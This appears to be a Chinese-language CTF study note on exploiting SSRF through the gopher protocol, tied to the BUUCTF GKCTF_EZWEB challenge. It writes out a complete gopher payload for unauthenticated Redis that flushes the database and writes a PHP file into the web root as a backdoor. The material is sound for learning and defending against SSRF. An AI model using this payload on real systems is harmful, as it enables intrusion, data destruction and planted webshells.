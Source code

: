 ```yaml
---
title: 【WEB】ssrf gopher协议
---
```

# Gopher 协议

在 http 出现之前，访问网页需要输入的是 

gopher://gopher.baidu.com/ 

而不是

https://www.baidu.com/

而它被代替的原因一方面是收费，另一方面的原因是它固化的结构没有HTML网页灵活

利用 gopher 的方式有 FTP 爆破，REDIS，MYSQL，FAST CGI，XXE



## 一些常用服务

Redis	6379

FPM	  9000

Smtp	 25

Mysql	3306

常用的协议

dict 、gopher

以下为经典的 Redis 未授权访问，以及常用 payload 的生成



## 利用方式

比如常见的，web 有一个 curl 的功能，然后可以访问内网靶机，就可以用类似的方式进行命令传递

( payload 每经过一次传递就会被解码一次 )

redis

![3](/assets/wgpsec/images/ssrf-gopher/3.png)

Smtp 生成 payload

![1](/assets/wgpsec/images/ssrf-gopher/1.png)

Fpm 生成 payload

![2](/assets/wgpsec/images/ssrf-gopher/2.png)

gopher支持多行。因此要在传输的数据前加一个无用字符。比如 gopher://ip:port/_ 通常用 _ 并不是只能用 _ ，gopher协议会吃掉第一个字符



## 关于 redis

redis 的格式：每一个 *number 代表每一行命令，number 代表每行命令中数组中的元素个数。$number 代表每个元素的长度。

URL解码后可以看到创建 shell 的完整流程

```gopher://127.0.0.1:6379/_*1
$8							//元素长度为8
flushall
*3							//3个元素
$3
set
$1
1
$31

<?php echo "hello world" ?>

*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$9
shell.php
*1
$4
save
```

即为redis将输入的语句保存在指定位置的php文件中，生成后门



## 相关环境：

BUUCTF[GKCTF_EZWEB]